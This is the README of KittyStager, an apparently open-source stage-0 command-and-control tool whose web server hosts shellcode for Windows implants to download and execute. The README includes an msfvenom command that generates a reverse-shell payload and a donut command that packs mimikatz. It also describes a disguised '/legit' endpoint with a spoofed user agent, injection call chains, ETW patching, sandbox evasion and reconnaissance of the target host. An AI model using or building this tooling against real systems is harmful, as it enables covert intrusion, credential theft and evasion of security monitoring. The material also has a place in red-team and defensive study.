 # KittyStager


<p align="center">
  <a href="" rel="noopener">
 <img width=200px height=200px src="./img/chat.png"> </a>
</p>


KittyStager is a simple stage 0 C2. It is made of a web server to host the shellcode and an implant, called kitten.
The purpose of this project is to be able to have a web server and some implant for various usage and be 
able to use it with any shellcode.

KittyStager has :
- A web server to host the shellcode
- Some kittens (implants) to execute the shellcode
- A simple cli to interact with the web server
- A user agent whitelist to prevent unwanted connections
- A basic recon to get some information about the target
  - The hostname (used to cypher the shellcode)
  - The username
  - The private IP
  - The program file content
- An AES encryption to encrypt the shellcode with a none hardcoded key


**I would not use this project in red team, at least not now.**



## Content
- [How it works](#how-it-works)
- [Quick start](#quick-start)
- [Kitten](#Kitten)
- [Project structure](#project-structure)
- [TODO](#todo)


## How it works

1. Configure all the settings in the config file
2. Start the server
    1. The server will start
    2. A config file will be created with each kitten
    3. It will configure the default sleep time for the fist callback
3. Compile the kitten
4. Run the kitten
5. Host the shellcode for the kitten

![](/img/workflow.svg)

## Quick start
The kittens are for windows only, but the server can be run on any OS.

How to compile :
```
go build
./kittyStager

cd /kitten/basickitten
go build -o basickitten
./basickitten
```
### How to use :
Generate a shellcode. It works with a shellcode in bin format or in hex format.

#### msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444
```
#### donut
```
go-donut.exe -i mimikatz.exe
```
#### Cobalt Strike
Generate staged payload in raw format

### Config file
The default config file under `KittyStager/cmd/config` :
```yaml
Http:
  host: "127.0.0.1"
  port: 8080
  endpoint: "/legit"
  sleep: 5
  userAgent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/102.0"
  malPath:
    - "kitten/basicKitten/"
    - "kitten/bananaKitten/"
```
### Example
KittyStager :
![](/img/Kitty16.png)
![](/img/Kitty17.png)
![](/img/Kitty10.png)
![](/img/Kitty11.png)
![](/img/Kitty12.png)
![](/img/Kitty18.png)
![](/img/Kitty13.png)

Kitten :
```
~basicKitten ❯ .\basicKitten.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

## Project structure
### [kitten](/kitten)
This is the folder where all the kittens are stored. Each kitten has its own folder.
#### [BasicKitten](/kitten/basicKitten)
This is the basic kitten, and it has the minimum to work. No fancy injection method, just a
`VirtualAlloc` -> `RtlCopyMemory` -> `VirtualProtect` -> `CreateThread` -> `WaitForSingleObject`. Use this as example if you want to develop your own kitten.
#### [BananaKitten](/kitten/bananaKitten)
`NtAllocateVirtualMemorySysid` -> `NtProtectVirtualMemorySysid` -> `NtCreateThreadExSysid` -> `NtWaitForSingleObject`
This is the more advanced kitten. It will use bananaphone, a variant of hell's gate implemented in Go. [https://github.com/C-Sto/BananaPhone](https://github.com/C-Sto/BananaPhone)

It also patches etw and has a sandbox escape mechanism, that check's if there is more than 1 Gb of ram. If not, it will exit.

### [cmd](/cmd)
#### [kittyStager](/cmd/kittyStager)
Main file of the project. It will start the server and create the config file for each kitten.
#### [config](/cmd/config)
Used to read and check the config file. The config file is `conf.yml`
#### [http](/cmd/http)
Used to start the server and serve the shellcode.
#### [cli](/cmd/cli)
This is the cli to interact with the server.
#### [interact](/cmd/interact)
This is the cli to interact with a kitten, select a shellcode or change sleep time. 
#### [util](/cmd/util)
It contains all the util functions used in the project.
#### [cryptoUtil](/cmd/cryptoUtil)
It contains all the util functions used to encrypt and decrypt the shellcode.
#### [httpUtil](/cmd/httpUtil)
It contains all the util functions used to interact with the server.
#### [malwareUtil](/cmd/malwareUtil)
It contains all the functions used only by the kittens

## TODO
- [ ] Add more kittens (vba, powershell, c#, c)
- [ ] Https